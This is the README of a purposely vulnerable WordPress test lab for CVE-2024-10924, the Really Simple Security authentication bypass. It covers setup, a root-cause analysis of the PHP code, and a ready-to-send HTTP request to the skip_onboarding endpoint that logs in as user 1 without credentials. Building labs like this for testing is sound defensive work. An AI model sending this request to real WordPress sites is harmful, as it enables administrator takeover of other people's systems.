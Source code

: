 # wordpress-really-simple-security-authn-bypass-vulnerable-application

This is a vulnerable application to test the exploit for the **Really Simple Security** < 9.1.2 authentication bypass (CVE-2024-10924).

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

***DISCLAIMER*: I do not take responsibility for the way in which any one uses this application. The only purpose of this application is to be a test scenario for the Really Simple Security < 9.1.2 authentication bypass (CVE-2024-10924) exploit and it should not be used maliciously. If your server is compromised via an installation of this application it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **CVE-ID**: CVE-2024-10924
* **Link**: [https://www.cve.org/CVERecord?id=CVE-2024-10924](https://www.cve.org/CVERecord?id=CVE-2024-10924)
* **Description**: This makes it possible for unauthenticated attackers to log in as any existing user on the site, such as an administrator, when the "*Two-Factor Authentication*" setting is enabled (disabled by default).
* **Vendor link**: []()
* **Fix:** [https://plugins.trac.wordpress.org/changeset/3188431/really-simple-ssl](https://plugins.trac.wordpress.org/changeset/3188431/really-simple-ssl)
* **Wordfence bulletin:** [https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass](https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass)

## Usage

Here the steps to **setup** the environment:
1. Launch `./up.sh` to start composition.
2. Complete the installation of WordPress here: [https://localhost:1337/wp-admin/install.php](http://localhost:1337/wp-admin/install.php).
3. Login into WordPress.
4. Go to "*Plugins*": [https://localhost:1337/wp-admin/plugins.php](http://localhost:1337/wp-admin/plugins.php).
5. Click on "*Activate*" under the "*Really Simple Security*" plugin. **DO NOT UPDATE IT**, since we need the vulnerable version.
6. Click on "*Cancel*" on the popup referring to SSL activation.
7. Go to "*Settings*" > "*Login Protection*" > "*Two-Factor Authentication*" and, in the "*Two-Factor Authentication*" section, enable "*Enable Two-Factor Authentication*".
8. Click the "*Save*" button.

The container will be called `vuln-wp-really-simple-security`.

To **teardown** the environment use `./down.sh` command or `./down_and_delete.sh` command to also remove images and the volume of the database.

## Root cause

Having a look at the [fix](https://github.com/Really-Simple-Plugins/really-simple-ssl/commit/33b6bae321f437f5d822e7d7e03103915530c86c#diff-826cac126398ce784274642e7be5f5214f94d72e6ae8ee07303b5d485587fdce), it's possible to understand that in the vulnerable version an error object was returned, in case of invalid login nonce, by the `check_login_and_get_user()` function, without aborting the whole operation.

```php
private function check_login_and_get_user( int $user_id, string $login_nonce ) {
    if ( ! Rsssl_Two_Fa_Authentication::verify_login_nonce( $user_id, $login_nonce ) ) {
	    return new WP_REST_Response( array( 'error' => 'Invalid login nonce' ), 403 );
    }

    /**
     * Get the user by the user ID.
     *
     * @var WP_User $user
     */
    $user = get_user_by( 'id', $user_id );
    return $user;
}
```

In the caller, by the way no check was performed on the output of the `check_login_and_get_user()` function ([line 277](https://github.com/Really-Simple-Plugins/really-simple-ssl/blob/157570bfe16a8139752c5a450b13e0858bf6d14c/security/wordpress/two-fa/class-rsssl-two-factor-on-board-api.php#L277)), but simply going further with the `authenticate_and_redirect()` function ([line 279](https://github.com/Really-Simple-Plugins/really-simple-ssl/blob/157570bfe16a8139752c5a450b13e0858bf6d14c/security/wordpress/two-fa/class-rsssl-two-factor-on-board-api.php#L277)).

```php
public function skip_onboarding( WP_REST_Request $request ): WP_REST_Response {
    $parameters = new Rsssl_Request_Parameters( $request );
	// As a double we check the user_id with the login nonce.
	$user = $this->check_login_and_get_user( $parameters->user_id, $parameters->login_nonce );

	return $this->authenticate_and_redirect( $user->ID, $parameters->redirect_to );
}
```

## Exploit

To exploit the vulnerability, a request like the following is sufficient.

```http
POST /?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding HTTP/1.1
Host: localhost:1337
Content-Type: application/json
Content-Length: 88
Connection: keep-alive

{
    "user_id": 1,
    "login_nonce": "133333337",
    "redirect_to": "/wp-admin/"
}
```

## Authors

* **Antonio Francesco Sardella** - *implementation* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the Unlicense - see the **LICENSE** file for details.

## Acknowledgments

* [**István Márton**](https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass), the security researcher who discovered the vulnerability.
